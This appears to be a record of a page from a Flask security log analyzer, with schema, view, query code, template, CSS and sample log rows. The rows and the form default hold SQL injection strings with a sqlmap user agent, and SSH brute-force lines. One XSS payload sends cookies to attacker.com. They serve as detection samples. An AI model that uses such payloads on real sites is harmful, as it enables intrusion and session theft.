
Page /logs (upper part) on the committed database.
### tables this page shows
CREATE TABLE logs (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
            source_ip TEXT,
            destination_ip TEXT,
            username TEXT,
            log_level TEXT,
            category TEXT,
            message TEXT,
            raw_log TEXT,
            is_threat INTEGER DEFAULT 0
        );

### app.py (the view)
@app.route('/logs')
def logs():
    category = request.args.get('category', '')
    threat_only = request.args.get(
        'threat_only',
        '0'
    ) == '1'
    logs_list = get_recent_logs(
        limit=100,
        category_filter=category if category else None,
        threat_only=threat_only
    )
    return render_template(
        'logs.html',
        logs=logs_list,
        selected_category=category,
        threat_only=threat_only
    )

### database.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect(DB_PATH)
    conn.row_factory = sqlite3.Row
    return conn

def get_recent_logs(limit=50, category_filter=None, threat_only=False):
    conn = get_db_connection()
    cursor = conn.cursor()
    query = "SELECT * FROM logs WHERE 1=1"
    params = []
    if category_filter:
        query += " AND category = ?"
        params.append(category_filter)
    if threat_only:
        query += " AND is_threat = 1"
    query += " ORDER BY timestamp DESC LIMIT ?"
    params.append(limit)
    cursor.execute(query, params)
    rows = cursor.fetchall()
    conn.close()
    return [dict(row) for row in rows]

### templates/logs.html (shortened to what this page needs)
{% extends 'base.html' %}
{% block content %}
<div class="page-header">
    <div>
        <h1 class="page-title">
            <i class="fa-solid fa-terminal" style="color: var(--cyber-cyan);"></i> Log Telemetry & Security Analyzer
        </h1>
        <div class="page-subtitle">Inspect raw log feeds or simulate security incident payloads with the rule-based threat detector</div>
    </div>
</div>
<div class="table-card" style="padding: 1.5rem; margin-bottom: 2rem; border-color: rgba(0, 242, 254, 0.3);">
    <div style="display: flex; justify-content: space-between; align-items: center; margin-bottom: 1rem;">
        <h2 style="font-size: 1.1rem; font-weight: 700; color: var(--cyber-cyan);">
            <i class="fa-solid fa-microchip"></i> Interactive Threat Payload Analyzer
        </h2>
        <span style="font-size: 0.75rem; color: var(--text-muted);">Paste custom log string or click attack simulation presets below</span>
    </div>
    <div class="presets-bar">
        <span style="font-size: 0.8rem; color: var(--text-secondary); margin-right: 0.5rem; align-self: center; font-weight: 600;">Presets:</span>
        <button type="button" class="preset-btn" data-preset="sqli"><i class="fa-solid fa-bug"></i> SQL Injection</button>
        <button type="button" class="preset-btn" data-preset="xss"><i class="fa-solid fa-code"></i> XSS Payload</button>
        <button type="button" class="preset-btn" data-preset="bruteforce"><i class="fa-solid fa-key"></i> SSH Brute Force</button>
        <button type="button" class="preset-btn" data-preset="portscan"> Port Scan</button>
        <button type="button" class="preset-btn" data-preset="malicious_ip"><i class="fa-solid fa-network-wired"></i> C2 IP Activity</button>
        <button type="button" class="preset-btn" data-preset="normal"><i class="fa-solid fa-circle-check"></i> Clean Log</button>
    </div>
    <form action="{{ url_for('analyze_log_endpoint') }}" method="POST">
        <div style="display: grid; grid-template-columns: repeat(auto-fit, minmax(200px, 1fr)); gap: 1rem; margin-bottom: 1rem;">
            <div>
                <label style="font-size: 0.8rem; color: var(--text-secondary); display: block; margin-bottom: 4px;">Source IP</label>
                <input type="text" id="source_ip" name="source_ip" class="form-control" placeholder="e.g. 185.220.101.5" value="185.220.101.5">
            </div>
            <div>
                <label style="font-size: 0.8rem; color: var(--text-secondary); display: block; margin-bottom: 4px;">Username / Account</label>
                <input type="text" id="username" name="username" class="form-control" placeholder="e.g. admin or root" value="admin">
            </div>
            <div>
                <label style="font-size: 0.8rem; color: var(--text-secondary); display: block; margin-bottom: 4px;">Category</label>
                <select id="category" name="category" class="form-select">
                    <option value="Web Security">Web Security</option>
                </select>
            </div>
            <div>
                <label style="font-size: 0.8rem; color: var(--text-secondary); display: block; margin-bottom: 4px;">Log Level</label>
                <select id="log_level" name="log_level" class="form-select">
                    <option value="INFO">INFO</option>
                </select>
            </div>
        </div>
        <div style="margin-bottom: 1rem;">
            <label style="font-size: 0.8rem; color: var(--text-secondary); display: block; margin-bottom: 4px;">Raw Security Log Payload / String</label>
            <textarea id="raw_log" name="raw_log" class="form-control" rows="3" placeholder="Paste syslog, nginx access log, or security event raw text..." required>GET /products.php?id=1' OR '1'='1 -- HTTP/1.1</textarea>
        </div>
        <div style="display: flex; justify-content: flex-end;">
            <button type="submit" class="btn btn-primary">
                <i class="fa-solid fa-magnifying-glass-chart"></i> Analyze Log & Generate Threat Alert
            </button>
        </div>
    </form>
</div>
<div class="table-card">
    <div style="padding: 1rem 1.25rem; border-bottom: 1px solid var(--border-color); display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 1rem;">
        <h2 style="font-size: 1.1rem; font-weight: 600; color: var(--text-primary);">
            <i class="fa-solid fa-list-ul" style="color: var(--cyber-cyan);"></i> Ingested Telemetry Log Feed ({{ logs|length }} Logs)
        </h2>
        <form method="GET" action="{{ url_for('logs') }}" style="display: flex; gap: 0.75rem; align-items: center;">
            <select name="category" class="form-select" style="font-size: 0.8rem; padding: 0.4rem 0.75rem;" onchange="this.form.submit()">
                <option value="">All Categories</option>
            </select>
            <label style="font-size: 0.8rem; color: var(--text-secondary); display: flex; align-items: center; gap: 0.35rem; cursor: pointer; white-space: nowrap;">
                <input type="checkbox" name="threat_only" value="1" {% if threat_only %}checked{% endif %} onchange="this.form.submit()">
                Threats Only
            </label>
        </form>
    </div>
    <div class="soc-table-wrapper">
        <table class="soc-table">
            <thead>
                <tr>
                    <th>Log ID</th>
                    <th>Timestamp</th>
                    <th>Source IP</th>
                    <th>User</th>
                    <th>Category</th>
                    <th>Log Level</th>
                    <th>Log Message / Raw Telemetry</th>
                    <th>Threat State</th>
                </tr>
            </thead>
            <tbody>
                {% for log in logs %}
                <tr {% if log.is_threat %}style="background: rgba(244, 63, 94, 0.05);"{% endif %}>
                    <td style="font-family: var(--font-mono); color: var(--text-muted);">#{{ log.id }}</td>
                    <td style="font-size: 0.8rem; color: var(--text-secondary); white-space: nowrap;">{{ log.timestamp[:19] }}</td>
                    <td><span class="ip-badge">{{ log.source_ip }}</span></td>
                    <td style="font-family: var(--font-mono); font-size: 0.8rem;">{{ log.username or 'N/A' }}</td>
                    <td><span style="font-size: 0.8rem; color: var(--text-secondary);">{{ log.category }}</span></td>
                    <td>
                        <span class="badge {% if log.log_level == 'CRITICAL' %}badge-critical{% elif log.log_level == 'ERROR' %}badge-high{% elif log.log_level == 'WARNING' %}badge-medium{% else %}badge-info{% endif %}">
                            {{ log.log_level }}
                        </span>
                    </td>
                    <td style="font-family: var(--font-mono); font-size: 0.8rem; color: #cbd5e1; max-width: 450px; word-break: break-all;">
                        {{ log.message }}
                    </td>
                    <td>
                        {% if log.is_threat %}
                            <span class="badge badge-critical"><i class="fa-solid fa-triangle-exclamation"></i> THREAT</span>
                        {% else %}
                            <span class="badge badge-low"><i class="fa-solid fa-check"></i> CLEAN</span>
                        {% endif %}
                    </td>
                </tr>
                {% else %}
                <tr>
                    <td colspan="8" style="text-align: center; color: var(--text-muted); padding: 2rem;">No logs matching filter criteria.</td>
                </tr>
                {% endfor %}
            </tbody>
        </table>
    </div>
</div>
{% endblock %}

### static/style.css (style rules this page uses)
:root { --bg-dark: #0b0f19; --bg-card: #111827; --bg-card-hover: #1f2937; --border-color: #1e293b; --border-glowing: #00f2fe; --text-primary: #f8fafc; --text-secondary: #94a3b8; --text-muted: #64748b; --color-critical: #f43f5e; --color-critical-bg: rgba(244, 63, 94, 0.15); --color-high: #f97316; --color-high-bg: rgba(249, 115, 22, 0.15); --color-medium: #f59e0b; --color-medium-bg: rgba(245, 158, 11, 0.15); --color-low: #10b981; --color-low-bg: rgba(16, 185, 129, 0.15); --color-info: #3b82f6; --color-info-bg: rgba(59, 130, 246, 0.15); --cyber-cyan: #00f2fe; --cyber-blue: #0284c7; --cyber-purple: #a855f7; --font-sans: 'Inter', -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif; --font-mono: 'JetBrains Mono', 'Fira Code', 'Consolas', monospace; }
* { box-sizing: border-box; margin: 0; padding: 0; }
body { background-color: var(--bg-dark); color: var(--text-primary); font-family: var(--font-sans); line-height: 1.5; min-height: 100vh; display: flex; flex-direction: column; }
.page-header { display: flex; justify-content: space-between; align-items: center; margin-bottom: 1.5rem; }
.page-title { font-size: 1.5rem; font-weight: 700; display: flex; align-items: center; gap: 0.5rem; }
.page-subtitle { font-size: 0.85rem; color: var(--text-muted); margin-top: 2px; }
.table-card { background: var(--bg-card); border: 1px solid var(--border-color); border-radius: 10px; overflow: hidden; margin-bottom: 1.75rem; }
.soc-table-wrapper { overflow-x: auto; }
.soc-table { width: 100%; border-collapse: collapse; font-size: 0.875rem; text-align: left; }
.soc-table th { background: rgba(15, 23, 42, 0.8); color: var(--text-secondary); font-weight: 600; text-transform: uppercase; font-size: 0.75rem; letter-spacing: 0.5px; padding: 0.85rem 1rem; border-bottom: 1px solid var(--border-color); }
.soc-table td { padding: 0.85rem 1rem; border-bottom: 1px solid var(--border-color); color: var(--text-primary); vertical-align: middle; }
.soc-table tbody tr { transition: background 0.15s ease; }
.ip-badge { font-family: var(--font-mono); background: rgba(255, 255, 255, 0.06); padding: 2px 7px; border-radius: 4px; font-size: 0.8rem; color: var(--cyber-cyan); border: 1px solid rgba(0, 242, 254, 0.2); }
.badge { display: inline-block; padding: 3px 10px; border-radius: 20px; font-size: 0.75rem; font-weight: 700; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-critical { background: var(--color-critical-bg); color: var(--color-critical); border: 1px solid rgba(244, 63, 94, 0.4); }
.badge-high { background: var(--color-high-bg); color: var(--color-high); border: 1px solid rgba(249, 115, 22, 0.4); }
.badge-low { background: var(--color-low-bg); color: var(--color-low); border: 1px solid rgba(16, 185, 129, 0.4); }
.badge-info { background: var(--color-info-bg); color: var(--color-info); border: 1px solid rgba(59, 130, 246, 0.4); }
.btn { display: inline-flex; align-items: center; gap: 0.5rem; padding: 0.55rem 1.25rem; font-size: 0.875rem; font-weight: 600; border-radius: 6px; cursor: pointer; border: none; transition: all 0.2s ease; }
.btn-primary { background: linear-gradient(135deg, var(--cyber-blue), var(--cyber-cyan)); color: #000; box-shadow: 0 0 10px rgba(0, 242, 254, 0.25); }
.form-control, .form-select { width: 100%; background: #0f172a; border: 1px solid var(--border-color); color: var(--text-primary); padding: 0.6rem 0.85rem; border-radius: 6px; font-size: 0.875rem; font-family: inherit; transition: border 0.2s ease; }
textarea.form-control { font-family: var(--font-mono); font-size: 0.85rem; resize: vertical; }
.presets-bar { display: flex; flex-wrap: wrap; gap: 0.5rem; margin-bottom: 1rem; }
.preset-btn { background: rgba(255, 255, 255, 0.04); border: 1px solid var(--border-color); color: var(--text-secondary); padding: 4px 10px; border-radius: 4px; font-size: 0.75rem; cursor: pointer; transition: all 0.2s ease; }

### rows in the picture
logs: id "61", timestamp "2026-07-23 23:25:59", source_ip "192.168.1.45", username "john.doe", category "System", log_level "ERROR", message "[NGINX-ACCESS] 192.168.1.45 - - [GET /dashboard HTTP/1.1] 200 3420", is_threat 0 (drawn)
logs: id "60", timestamp "2026-07-23 23:22:43", source_ip "192.168.1.45", username "john.doe", category "System", log_level "INFO", message "[NGINX-ACCESS] 192.168.1.45 - - [GET /dashboard HTTP/1.1] 200 3420", is_threat 0 (drawn)
logs: id "59", timestamp "2026-07-23 23:19:43", source_ip "185.220.101.5", username "unknown", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1 User-Agent: sqlmap/1.6", is_threat 1 (drawn)
logs: id "58", timestamp "2026-07-23 23:17:16", source_ip "185.220.101.5", username "admin", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1Risk level changes", is_threat 1 (drawn)
logs: id "57", timestamp "2026-07-23 23:12:55", source_ip "45.146.164.20", username "victim_account", category "Web Security", log_level "INFO", message "<script>document.location='http://attacker.com/steal?c='+document.cookie</script>", is_threat 1 (drawn)
logs: id "56", timestamp "2026-07-23 23:12:43", source_ip "185.220.101.5", username "admin", category "Authentication", log_level "INFO", message "sshd[9812]: Failed password for invalid user admin from 185.220.101.5 port 49120 ssh2", is_threat 1 (drawn)
logs: id "55", timestamp "2026-07-23 23:11:54", source_ip "185.220.101.5", username "admin", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1", is_threat 1 (drawn)
logs: id "54", timestamp "2026-07-23 22:47:48", source_ip "185.220.101.5", username "admin", category "Authentication", log_level "INFO", message "sshd[9812]: Failed password for invalid user admin from 185.220.101.5 port 49120 ssh2", is_threat 1 (drawn)
logs: id "53", timestamp "2026-07-23 22:47:37", source_ip "185.220.101.5", username "admin", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1", is_threat 1 (drawn)
logs: id "52", timestamp "2026-07-23 22:47:23", source_ip "185.220.101.5", username "unknown", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1 User-Agent: sqlmap/1.6 readynest.conm", is_threat 1 (drawn)
logs: id "51", timestamp "2026-07-23 22:41:39", source_ip "185.220.101.5", username "unknown", category "Web Security", log_level "INFO", message "GET /products.php?id=1' OR '1'='1 -- HTTP/1.1 User-Agent: sqlmap/1.6", is_threat 1 (drawn)

### other values in the picture
{{ logs|length }} "38"
